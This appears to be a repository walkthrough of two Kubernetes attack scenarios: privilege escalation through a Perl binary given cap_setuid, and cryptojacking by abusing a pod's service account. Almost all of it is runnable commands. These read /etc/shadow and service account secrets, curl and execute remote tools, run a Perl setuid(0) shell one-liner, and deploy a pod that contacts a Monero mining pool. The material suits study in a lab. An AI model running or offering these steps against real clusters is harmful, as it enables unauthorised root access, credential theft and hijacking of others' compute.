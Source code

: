 # Scenario 1: Perform privilege escalation 

## setup the environment

1- create pod :

```bash
cd /tmp; cat > ubuntu.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: ubuntu
  labels:
    app: ubuntu
spec:
  containers:
  - name: ubuntu
#    securityContext:
#      runAsUser: 10000
#      runAsGroup: 10000
    image: ubuntu:latest
    command: ["/bin/sleep", "3650d"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
```

2- deploy the pod 

```bash
kubectl apply -f ubuntu.yml
```

3- access the new pod 

```bash
kubectl exec -it ubuntu -- bash
```

4- install some additoin 

```bash
apt update
apt install curl -y 
apt install  libcap2-bin -y 
apt install sudo -y
```

5- set up Perl command with administrative rights.

```bash
setcap cap_setuid+ep /usr/bin/perl
```

6- create new user 

```bash 
adduser demo
```

## starting the attack

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

Display the capabilities /check the files that have setuid permission 

```bash
getcap -r / 2>/dev/null
sudo -l
```
in this case, the binary /usr/bin/perl has the SUID set.

privilage escalation

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

```bash
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

# Scenario 2: Cryptomining

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

```bash
ln -s /etc/shadow sh-link
```

Here we download and run a basic Linux config auditor to see if it finds any obvious opportunities. 
``` bash
cd /tmp; curl http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

Is it a container? 
amicontainer —> is a container introspection tool that lets you find out what container runtime is being used as well as the features available.

```bash
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

Now let's inspect our Kubernetes environment:

```bash
env | grep -i kube
```
```bash
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
```bash
ls /var/run/secrets/kubernetes.io/serviceaccount
```
We have typical Kubernetes-related environment variables defined, let's see if the Kubernetes security configuration is sloppy.

```bash
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://dl.k8s.io/release/v1.22.0/bin/linux/amd64/kubectl; chmod 555 kubectl
```

```bash
kubectl get all
```

By default, kubectl will attempt to use the default service account in /var/run/secrets/kubernetes.io/serviceaccount -- and it looks like this one has some API access

- Let's inspect what all we can do:

```bash
kubectl auth can-i --list
```

```bash
kubectl auth can-i create pods
```
```bash
cd /tmp; cat > crypto.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: crypto
  namespace: prd
  labels:
    app: crypto
spec:
  containers:
  - name: crypto
    image: ubuntu:latest
    command: ["/bin/sh"]
    args: ["-c", "apt update && apt install curl -y && curl pool.minexmr.com"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
./kubectl apply -f crypto.yml
sleep 10
./kubectl get pods
```
